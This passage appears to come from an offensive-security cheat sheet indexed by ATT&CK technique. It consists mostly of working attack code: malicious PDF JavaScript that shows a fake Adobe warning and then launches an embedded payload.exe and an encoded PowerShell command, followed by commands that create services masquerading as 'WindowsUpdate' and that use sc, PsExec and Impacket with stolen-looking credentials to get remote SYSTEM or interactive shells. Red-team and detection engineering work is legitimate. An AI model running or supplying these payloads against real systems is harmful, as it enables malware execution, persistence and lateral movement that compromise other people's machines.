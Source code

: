 ### 5.3 PDF Exploitation

```javascript
// Malicious PDF JavaScript
app.alert({
    cMsg: "This document requires Adobe Reader X or later",
    nIcon: 3,
    cTitle: "Warning"
});

// Launch payload
this.exportDataObject({
    cName: "payload.exe",
    nLaunch: 2
});

// Alternative: embedded file execution
app.launchURL("file:///C:/Windows/System32/cmd.exe /c powershell -enc <BASE64>");
```

---

## 6. System Services (T1569)

### 6.1 Service Execution (T1569.002)

```powershell
# Create service
sc create "WindowsUpdate" binPath= "C:\Windows\Temp\payload.exe" start= auto
sc start "WindowsUpdate"

# Create service on remote system
sc \\TARGET create "Update" binPath= "cmd.exe /c powershell -enc <BASE64>" start= auto
sc \\TARGET start "Update"

# PowerShell service creation
New-Service -Name "WindowsUpdate" -BinaryPathName "C:\Windows\Temp\payload.exe" -StartupType Automatic
Start-Service -Name "WindowsUpdate"
```

### 6.2 PsExec (T1569.002)

```bash
# Sysinternals PsExec
psexec.exe \\TARGET -u DOMAIN\admin -p password cmd.exe

# Execute as SYSTEM
psexec.exe \\TARGET -s cmd.exe

# Interactive shell
psexec.exe \\TARGET -u admin -p pass -i cmd.exe

# Impacket psexec
impacket-psexec DOMAIN/admin:password@192.168.1.100
```

---